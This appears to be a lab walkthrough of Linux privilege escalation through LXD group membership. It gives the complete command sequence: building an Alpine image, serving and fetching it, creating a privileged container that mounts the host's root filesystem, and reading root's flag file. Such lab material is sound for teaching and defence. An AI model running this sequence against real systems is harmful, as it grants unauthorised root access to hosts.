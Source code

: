 Privilege escalation through lxd requires the access of local account, therefore, we choose SSH to connect and take the access local account on host machine.

_Note: the most important condition is that the user should be a member of lxd group._

ssh raj@192.168.1.105

![](https://i0.wp.com/1.bp.blogspot.com/-jyRKVNcGy3E/XaHYLb3nFXI/AAAAAAAAg6A/JfkG7FazSLYvQDZPepJw35U9l0T5SfGwQCLcBGAsYHQ/s1600/8.png?w=640&ssl=1)

In order to take escalate the root privilege of the host machine you have to create an image for lxd thus you need to perform the following the action:

1.  **Steps to be performed on the attacker machine**:

-   Download build-alpine in your local machine through the git repository.
-   Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
-   Transfer the tar file to the host machine

2.  **Steps to be performed on the host machine:**

-   Download the alpine image
-   Import image for lxd
-   Initialize the image inside a new container.
-   Mount the container inside the /root directory

So, we downloaded the build alpine using the GitHub repose.

git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

![](https://i0.wp.com/1.bp.blogspot.com/-Pq2pI1v8leE/XaHYL9-edOI/AAAAAAAAg6E/T9bKB2fY8dUYd8eJFVLpv3-UPMxcmcRVACLcBGAsYHQ/s1600/9.png?w=640&ssl=1)

On running the above command, a tar.gz file is created in the working directory that we have transferred to the host machine.

python -m SimpleHTTPServer

![](https://i0.wp.com/1.bp.blogspot.com/-QJY3OdT2k8w/XaHYISYrQ-I/AAAAAAAAg5c/oYFVSoQB_w0DbfvddZirjoirtsUm112_QCLcBGAsYHQ/s1600/10.png?w=640&ssl=1)

On another hand we will download the alpine-image inside /tmp directory on the host machine.

cd /tmp
wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz

After the image is built it can be added as an image to LXD as follows:

lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage

use the list command to check the list of images

lxc image list

![](https://i0.wp.com/1.bp.blogspot.com/-yy1afthCNsc/XaHYJSIM37I/AAAAAAAAg5g/KTDuZuVIjmMzqEzlMsNY0E59r7UDV28tACLcBGAsYHQ/s1600/11.png?w=640&ssl=1)

lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id

Once inside the container, navigate to /mnt/root to see all resources from the host machine.

After running the bash file. We see that we have a different shell, it is the shell of the container. This container has all the files of the host machine. So, we enumerated for the flag and found it.

mnt/root/root
ls
flag.txt
cat flag.txt

![](https://i0.wp.com/1.bp.blogspot.com/-Anb2MgTn7oM/XaHYJib3nnI/AAAAAAAAg5k/vazX4tfy3OEJLQ8EZ-o-1LEWvOpD4_vHwCLcBGAsYHQ/s1600/12.png?w=640&ssl=1)